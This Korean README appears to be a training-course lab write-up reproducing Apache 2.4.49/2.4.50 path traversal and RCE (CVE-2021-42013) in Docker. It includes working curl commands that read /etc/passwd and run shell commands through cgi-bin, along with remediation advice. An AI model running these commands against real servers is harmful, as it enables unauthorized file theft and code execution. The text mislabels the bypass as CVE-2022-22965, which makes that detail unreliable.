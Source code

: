 # Apache HTTP Server 2.4.50의 Path traversal과 파일 접근 취약점 (CVE-2021-42013)

> 화이트햇 스쿨 3기 - [32반 이규민] ([@karajann](https://github.com/dmrmam))

## 요약
Apache HTTP Server 2.4.49 및 2.4.50 버전에서 발견된 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점입니다. 이 취약점은 이전에 발견된 CVE-2021-41773의 불완전한 패치로 인해 발생하였으며, 공격자가 웹 루트 디렉토리 외부의 파일에 접근하거나, 특정 조건 하에서 원격으로 코드를 실행할 수 있게 합니다.​

## 환경설정
'''
docker compose build
docker compose up -d
'''
시작 된 후 localhost:8080 에서 Apache HTTP Server 'It works!' 페이지를 볼 수 있습니다.

## 설정 조건
- httpd.conf 파일에서 특정 디렉토리에 대해 Require all granted로 설정되어 있거나, Require 지시어가 누락된 경우
- mod_cgi 모듈이 활성화되어 있고, 해당 디렉토리에서 CGI 스크립트 실행이 허용된 경우

## PoC
이전에 CVE-2021-41773 에서 경로 정규화 처리를 제대로 하지 못하기 때문에 '%2e' ( URL 인코딩된 '.')을 활용한 Path traversal 우회가 가능했습니다.
- ex: http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

패치 이후에도 이 취약점은 완벽하지 않았고, CVE-2022-22965 에서는
더블 인코딩 ('.%%32%65' -> '.%%65' -> '.e')를 사용해 다시 우회가 가능합니다.

- '/icons/'는 실제로 존재해야 우회가 가능합니다

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

![](1.png)

서버에 CGI 또는 CGID 모듈이 켜져 있다면, 이 Path traversal을 통해 원격 코드 실행(RCE)이 가능해 임의의 명령을 실행할수 있습니다

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](2.png)

## 정리
이 취약점은 'CVSS: 9.8'점의 치명적인 취약점으로써 인증 없이도 파일 유출과 원격 코드 실행이 가능합니다.
해결방안으로는 Apache 서버를 '2.4.51'이상 버전으로 즉시 업그레이드를 하거나 필요하지 않은 경우
'mod_cgi'혹은 'mod_cgid'를 비활성화 시킴으로써 패치가 가능합니다.

